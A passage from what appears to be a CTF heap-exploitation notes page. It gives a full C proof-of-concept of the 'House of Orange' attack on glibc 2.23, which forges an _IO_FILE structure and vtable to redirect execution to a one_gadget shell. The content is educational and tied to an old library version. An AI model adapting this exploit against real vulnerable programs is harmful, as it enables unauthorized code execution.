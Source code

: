 ```cpp
    printf("malloc(0x310) => %p\n", malloc(0x318));
    return 0;
}
```

## [House of Orange](http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html)

Create a freed chunk without `free()` and attack with `_IO_FILE` structure. (Unsortedbin Attack)

```cpp
// glibc-2.23 version
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

#define _IO_list_all 0x3c5520
#define one_gadget 0xf1147

char fake_vtable[0xa8];

int main() {
    void *p;
    void *fake_file;
    p = malloc(0x18);
    *(uint64_t *)((uint64_t)p + 0x18) = 0xfe1; // Set top chunk's size = 0xfe1
    malloc(0x1000); // Trigger sysmalloc (free top chunk)
    p = malloc(0x500); // Get a unsortedbin-chunk
    uint64_t libc_base = (uint64_t)(*(uint64_t *)p) - 0x3c5188;
    fprintf(stderr, "leak libc => %p\n", libc_base);

    uint64_t unsorted_bin_chunk_addr = (uint64_t)p + 0x500;
    fake_file = unsorted_bin_chunk_addr;
    uint64_t IO_list_all_addr = libc_base + _IO_list_all;
    // Create fake file (also a fake smallbin)
    *(uint64_t *)((uint64_t)fake_file + 0x8) = 0x61; // _IO_read_ptr ; Set smallbin's size ; Fake _chain @ `&unsortedbin + 0x68`
    *(uint64_t *)((uint64_t)fake_file + 0x18) = IO_list_all_addr - 0x10; // _IO_read_base ; For Unsoredbin Attack
    // Bypass _IO_overflow_t
    *(uint64_t *)((uint64_t)fake_file + 0xc0) = 0; // _mode
    *(uint64_t *)((uint64_t)fake_file + 0x28) = 1; // _IO_write_ptr
    *(uint64_t *)((uint64_t)fake_file + 0x20) = 0; // _IO_write_base
    *(uint64_t *)((uint64_t)fake_file + 0xd8) = fake_vtable; // vtable

    uint64_t one_gadget_addr = libc_base + one_gadget;
    *(uint64_t *)((uint64_t)fake_vtable + 0x18) = one_gadget_addr; // __overflow
    malloc(1); // Trigger malloc_printerr
    exit(0);
}
```

